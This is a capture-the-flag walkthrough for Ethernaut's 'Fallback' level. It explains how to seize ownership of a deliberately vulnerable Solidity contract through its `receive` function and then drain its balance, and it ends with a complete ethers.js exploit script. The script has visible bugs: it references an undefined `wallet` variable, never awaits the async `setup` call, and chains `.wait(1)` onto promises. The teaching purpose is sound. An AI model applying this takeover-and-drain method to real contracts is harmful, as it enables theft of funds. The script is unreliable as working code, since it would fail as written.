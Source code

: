 ```yaml
---
description: >-
  In Ethernaut's Fallback, we get some practice walking through Solidity
  contract logic and are introduced to the concept of "fallback" functions.
---
```


# 1 - Fallback

The goal of [this level](https://ethernaut.openzeppelin.com/level/0x9CB391dbcD447E645D6Cb55dE6ca23164130D008) is to claim ownership of the `Fallback` contract and reduce its balance to zero.

### Hints

<details>

<summary>Hint One</summary>

Before we can withdraw funds, we must first become the contract's `owner`. Where in the code is the owner variable first assigned? Where is it reassigned? When it is reassigned, what conditions need to be met that would result in `msg.sender` becoming the `owner`? Could we construct a series of transactions to meet these conditions?

</details>

<details>

<summary>Hint Two</summary>

We can become the contract `owner` by triggering its `receive` function after making an initial transaction via the `contribute` function to satisfy the second part of its `require(msg.value > 0 && contributions[msg.sender] > 0);` condition. The `receive` function is a special "fallback" function in Solidity. How is it triggered?

</details>

### Full Walkthrough

#### Claiming Ownership

The contract's `owner` is set by its constructor to the address from which it was deployed. There are only two sections of the code in which the owner may be reassigned. The first, within the `contribute` function, is a dead end. This is because it requires the sender's contributions to be greater than the owner's, while the constructor has already set the owner's contribution to 1,000 ether (line 13: `contributions[msg.sender] = 1000 * (1 ether);`) and the `contribute` function limits each of the player's contributions to < 0.001 ether.

```solidity
function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if (contributions[msg.sender] > contributions[owner]) {
        owner = msg.sender;
    }
}
```

The second section of the code in which the contract owner may be reassigned is found within the `receive` ("Receive Ether") function.

```solidity
receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
}
```

The `receive` function checks first that the value of the transaction is non-zero, and that the contributions of the sender address are non-zero, before reassigning the `owner` to `msg.sender`. This means we may pass this `require` condition by first sending a small transaction via the `contribute` function (< 0.001 ether), then by sending a second transaction of any non-zero value to the contract address with empty calldata to trigger its `receive` function.

{% hint style="info" %}
**Fallback Functions**

Solidity (version 0.6.x+) contracts may contain two special "fallback" functions, `receive` and `fallback`:

* **receive** is triggered when a contract receives a transaction with empty calldata.
* **fallback** is triggered when no other function (not even `receive`) matches.
{% endhint %}

#### Reducing Balance to Zero

Once the owner address is set to the player's address, we may call the `withdraw` function directly as the `require` condition of the `onlyOwner` modifier has now been satisfied.

```solidity
function withdraw() public onlyOwner {
    owner.transfer(address(this).balance);
}
```

### Scripted Solution

```javascript
const ethers = require('ethers')
const fs = require('fs')
require('dotenv').config({ path: './.env' })

/**
 * Initialize the basic Ethers objects needed to interact with the blockchain
 * and contract.
 */
async function setup(contractName) {
  // Create provider - a read-only abstraction to access blockchain data
  const provider = new ethers.providers.InfuraProvider(process.env.NETWORK)
  // Create player wallet
  const playerWallet = new ethers.Wallet(process.env.PRIVATE_KEY)
  // Create player wallet signer - an abstraction of an Ethereum account
  const playerWalletSigner = await wallet.connect(provider)
  // Create contract instance - an abstraction of the deployed contract code
  const contractAbi = fs.readFileSync(`./${contractName}.abi`, 'utf8')
  const contract = new ethers.Contract(
    process.env.CONTRACT_ADDRESS,
    contractAbi,
    playerWalletSigner
  )

  return { provider, playerWallet, playerWalletSigner, contract }
}

/**
 * Run contract exploit.
 */
async function main() {
  // Get basic Ethers objects needed to interact with the blockchain and contract
  const {
    provider,
    playerWallet,
    playerWalletSigner,
    contract: fallbackContract,
  } = setup('Fallback')

  // Contribute 0.0001 ether via Fallback contract's 'contribute' function
  const contributionValue = ethers.utils.parseEther('0.0001')
  console.log(
    `Sending Fallback 'contribute' ${contributionValue.toString()}...`
  )
  await fallbackContract
    .contribute({
      value: contributionValue,
    })
    .wait(1)

  // Confirm contribution via Fallback contract's 'getContribution' function
  console.log(
    `Current contribution: ${await fallbackContract
      .getContribution()
      .toString()}`
  )

  // Send ether to Fallback contract address ('receive' function)
  console.log(
    `Sending ${contributionValue.toString()} to Fallback contract address...`
  )
  await playerWalletSigner
    .sendTransaction({
      to: process.env.CONTRACT_ADDRESS,
      value: contributionValue,
      gasPrice: 20000000000,
    })
    .wait(1)

  // Check current Fallback contract 'owner'
  const fallbackContractOwner = await fallbackContract.owner()
  console.log(`Fallback contract 'owner' is now: ${fallbackContractOwner}`)

  if (fallbackContractOwner === playerWallet.address) {
    console.log('Player is contract owner.')

    // Withdraw funds via Fallback contract's 'withdraw' function
    console.log('Withdrawing contract balance...')
    await fallbackContract.withdraw().wait(1)

    // Check new Fallback contract balance
    const contractBalance = await provider.getBalance(
      process.env.CONTRACT_ADDRESS
    )
    console.log(`Contract balance is now: ${contractBalance.toString()}`)
  }
}

main()
  .then(() => process.exit(0))
  .catch((error) => {
    console.error(error)
    process.exit(1)
  })
```

### Key Takeaways

* Solidity contains two special **fallback functions**. One of which, **receive**, is triggered when a contract receives a transaction with empty calldata.
